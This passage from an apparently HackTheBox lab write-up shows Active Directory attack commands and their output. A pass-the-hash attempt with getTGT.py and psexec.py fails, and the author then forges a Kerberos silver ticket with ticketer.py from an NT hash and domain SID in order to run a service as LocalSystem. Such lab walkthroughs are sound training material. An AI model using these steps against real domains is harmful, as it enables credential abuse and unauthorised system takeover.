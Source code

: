 ```

Or

root@kali:$ proxychains4 -q getTGT.py -dc-ip 192.168.3.203 -hashes :fc64914083cfe79b3a01cd44550044fe HTB/'DEV$'
[*] Saving ticket in DEV$.ccache
root@kali:$ export KRB5CCNAME=`pwd`/'DEV$.ccache'
root@kali:$ proxychains4 -q psexec.py 'htb.local/DEV$@dev.htb.local' -k -no-pass -debug
[+] Impacket Library Installation Path: /usr/local/lib/python3.8/dist-packages/impacket
[+] StringBinding ncacn_np:dev.htb.local[\pipe\svcctl]
[+] Using Kerberos Cache: /root/htb/endgames/hades/tickets/DEV$.ccache
[+] SPN CIFS/DEV.HTB.LOCAL@HTB.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] SPN KRBTGT/HTB.LOCAL@HTB.LOCAL not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] No valid credentials found in cache.
[+] Trying to connect to KDC at HTB.LOCAL
[+] Trying to connect to KDC at HTB.LOCAL
[-] Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
```

Unfortunatelly, as you can see above I was not able to get access to SMB this way. Instead I'll use impacket/services.py to trigger [[MS-SCMR]](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/d5bd5712-fa64-44bf-9433-3651f6a5ce97) RPC call to create and run a service as LocalSystem.

First, I'll generate a new silver ticket (the username can be random):

```
root@kali:$ ticketer.py -nthash fc64914083cfe79b3a01cd44550044fe -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -domain htb.local -spn cifs/192.168.3.201 snovvcrash
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for htb.local/snovvcrash
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in snovvcrash.ccache

root@kali:$ export KRB5CCNAME=`pwd`/snovvcrash.ccache
```

Pay attention: here I [can](https://secureidentity.se/ip-kerberos-spn/) set an [IP address for an SPN](https://docs.microsoft.com/en-us/windows-server/security/kerberos/configuring-kerberos-over-ip) (not a hostname), it only matters to do it in a same way across all the requests. For example, if I set `-spn cifs/192.168.3.201` then I should request `192.168.3.201` (not `dev.htb.local`) in my next commands. If I have a mismatch (ticket with an IP in the SPN and I issue a request for a hostname or vice versa, I will probably get `KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)`).

